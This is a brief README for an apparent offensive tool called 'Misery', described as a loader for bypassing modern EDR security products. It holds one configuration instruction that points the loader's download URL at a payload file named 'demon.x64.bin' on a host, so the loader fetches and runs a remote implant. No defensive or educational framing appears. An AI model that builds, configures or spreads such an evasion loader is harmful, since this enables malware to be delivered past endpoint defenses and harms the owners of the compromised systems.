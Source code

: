 # Misery
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

Misery Loader to bypass modern EDR solutions


# Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"

